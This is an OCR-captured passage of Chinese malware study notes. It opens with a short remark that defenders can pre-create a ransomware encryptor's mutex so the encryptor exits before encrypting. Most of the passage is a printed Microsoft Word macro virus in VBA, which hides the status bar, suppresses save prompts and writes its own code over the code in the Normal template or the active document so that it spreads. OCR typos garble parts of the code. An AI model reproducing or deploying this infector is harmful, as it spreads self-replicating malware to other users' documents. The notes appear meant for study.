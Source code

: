3.  在分析病毒 exe 文件时，病毒加密器在
    加密前会进行互斥体检测。检测是否已经有加密器程序存在，这是创建了互斥体
    MsWinZonesCacheCounterMutexA
    ，安全软件可以预先创建互斥体，这样加密器在加密前就会自动推出，不会进行加密

# 11 学习笔记：

### 微软 宏病毒

病毒主体

```visual basic
' Micro-Virus

Sub Document_Open()

On Error Resume Next

Application. DisplayStatusBar=False '屏蔽状态栏

Options. SaveNormalPrompt=False
'修改公用模板时在后台自动保存，不给任何提示

Ourcode =ThisDocument. VBProject. VBComponents(1). CodeModule.
Lines(1,100)

'获取当前文档代码对象

Set Host =NormalTemplate. VBProject. VBComponents(1). CodeModule

'获取共用模板的代码对象

If ThisDocument =NormalTemplate Then
'判断当前文件是否等于公用模板对象

Set Host=ActiveDocument. VBPro ject. VBComponents(1). CodeModule

'如果是，则获取当前活动文档的代码对象

End If

With Host

If. Lines(1.1)<>"Micro-Virus"Then '判断当前文档是否感染病毒

. Deletelines 1,. CountOfLines '如果不是，就清除原来的代码

. Insertlines 1, Ourcode'嵌入病毒代码

. Replaceline 2,"Sub Document_Close()"'更换

If ThisDocument=nomaltemplate Then '判断当前的文档是否是公用模块

. ReplaceLine 2,"Sub Document_Open()"

ActiveDocument. SaveAs ActiveDocument. FullName

End If

End If

End With

```
